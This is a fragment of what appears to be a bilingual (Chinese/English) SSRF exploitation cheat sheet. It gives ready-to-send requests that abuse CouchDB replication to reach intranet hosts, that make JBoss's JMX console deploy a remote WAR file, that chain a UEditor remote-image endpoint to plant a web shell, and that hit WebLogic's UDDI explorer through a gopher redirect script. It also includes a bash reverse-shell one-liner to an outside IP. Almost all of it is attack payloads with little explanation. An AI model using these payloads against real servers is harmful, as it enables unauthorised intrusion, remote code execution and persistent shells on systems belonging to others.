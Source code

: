 > Attacker could also send requests from CouchDB server to intranet by using replication [function](http://docs.couchdb.org/en/stable/api/server/common.html#replicate)

```
POST http://couchdb:5984/_replicate
Content-Type: application/json
Accept: application/json

{
    "source" : "recipes",
    "target" : "http://ssrf-me:11211/recipes",
}
```

### Jboss

> Jbosss POC

```
/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system:service=MainDeployer&methodIndex=17&arg0=http://our_public_internet_server/utils/cmd.war
```

> 写入 shell

```
http://target.com/ueditor/jsp/getRemoteImage.jsp
POST:
    upfile=http://10.0.0.1:8080/jmx-console/HtmlAdaptor?action=invokeOp%26name=jboss.system%3Aservice%3DMainDeployer%26methodIndex=3%26arg0=http%3A%2F%2F远端地址%2Fhtml5.war%23.jpg
http://target.com/ueditor/jsp/getRemoteImage.jsp
POST:
    upfile=http://内网IP:8080/html5/023.jsp%23.jpg
```

> reverse shell

```
bash -i >& /dev/tcp/123.45.67.89/9999 0>&1
```

### Weblogic

> gopher.php

```
<?php
	header("Location:gopher://vps-ip:2333/_test");
?>
```

> vuln website

```
https://example.com/uddiexplorer/SearchPublicRegistries.jsp
POST:
    operator=http://vps-ip/gopher.php&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search
```
